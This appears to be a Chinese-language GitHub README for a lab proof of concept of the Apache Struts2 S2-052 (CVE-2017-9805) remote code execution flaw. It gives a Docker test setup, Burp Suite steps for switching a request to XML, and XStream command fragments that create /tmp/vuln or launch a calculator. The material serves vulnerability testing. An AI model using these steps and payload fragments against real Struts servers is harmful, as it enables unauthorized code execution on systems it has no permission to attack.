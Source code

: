 ## S2-052（CVE-2017-9805）

struts2 052远程代码执行漏洞POC利用（影响版本：Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12） 官方介绍：https://cwiki.apache.org/confluence/display/WW/S2-052 此POC是在struts-2.5.12版本测试验证的。

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```


## POC
http://10.160.11.191:8080/orders.xhtml

如果上述都顺利的话可以看到Orders可编辑界面，下面是POC测试过程。 点击Order 3编辑，进入到修改界面，点击"提交"Burpsuite抓包，然后修改Content-Type为application/xml格式，post数据替换为poc中data提交。

```
root@070efab61a6e:/usr/local/tomcat# ls /tmp/ -l
total 4
drwxr-xr-x 2 root root 4096 Oct 10 07:47 hsperfdata_root
-rw-r----- 1 root root    0 Oct 10 07:52 vuln
root@070efab61a6e:/usr/local/tomcat# date
Tue Oct 10 07:52:54 UTC 2017

```

## 期望结果
1、期望在/tmp/目录下创建vuln文件，证明命令被执行。
2、/usr/bin/ping *.*.*.*  命令执行ping，通过docker宿主机tcpdump -ni br-cd0dcca0f917 抓包证明命令被执行。

docker环境下touch命令：
<command>
<string>/usr/bin/touch</string><string>/tmp/vuln</string>
</command>

Notes:
Windows下关键字为：

<command><string>calc</string></command>
Mac下关键字为：

<command><string>/Applications/Calculator.app/Contents/MacOS/Calculator</string></command>





## 免责申明：文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负